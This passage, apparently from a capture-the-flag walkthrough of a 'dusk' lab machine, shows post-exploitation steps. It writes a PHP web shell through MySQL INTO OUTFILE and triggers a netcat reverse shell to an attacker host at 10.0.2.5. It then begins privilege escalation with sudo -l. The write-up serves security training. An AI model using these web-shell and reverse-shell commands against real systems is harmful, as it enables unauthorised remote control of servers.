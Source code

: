 Nothing! the database is just empty except for the mysql root user, which isn't too helpful. But thanks to some atrocities such as *OUTFILE* we can write dodgy code to the local filesystem, such as this simple shell. Remembering back to the directory listing on port 8080, we have a location where php files are executed (/var/tmp)

[<img src="{{ site.baseurl }}/images/dusk/6.png"
 style="width: 800px;"/>]({{ site.baseurl }}/images/dusk/6.png)

 the command for this in copyable format:
```
select "<? php system($_GET['cmd']); ?>" into outfile "/var/tmp/alickshell.php"
```
and we can now revisit the listing on port 8080 to see if it has saved:

[<img src="{{ site.baseurl }}/images/dusk/8.png"
 style="width: 100px;"/>]({{ site.baseurl }}/images/dusk/8.png)     

give it a quick check:

[<img src="{{ site.baseurl }}/images/dusk/7.png"
 style="width: 800px;"/>]({{ site.baseurl }}/images/dusk/7.png)

and then we can try and execute something intrusive. launch a netcat listener with
```
nc -lvp 4444
```
and then call the script from the server and tell it to connect to our listener:
```
index.php?cmd=nc -e /bin/bash 10.0.2.5 4444
```
[<img src="{{ site.baseurl }}/images/dusk/7_b.png"
 style="width: 800px;"/>]({{ site.baseurl }}/images/dusk/7_b.png)    


and watch our listener connect:

[<img src="{{ site.baseurl }}/images/dusk/9.png"
 style="width: 800px;"/>]({{ site.baseurl }}/images/dusk/9.png)

and we can navigate to our first user flag:

[<img src="{{ site.baseurl }}/images/dusk/10.png"
 style="width: 800px;"/>]({{ site.baseurl }}/images/dusk/10.png)

***
<h3>Our first user pivot</h3>

When we run:
```
sudo -l
```
We can see what our user can do to escape into another user:

[<img src="{{ site.baseurl }}/images/dusk/11.png"
 style="width: 800px;"/>]({{ site.baseurl }}/images/dusk/11.png)     
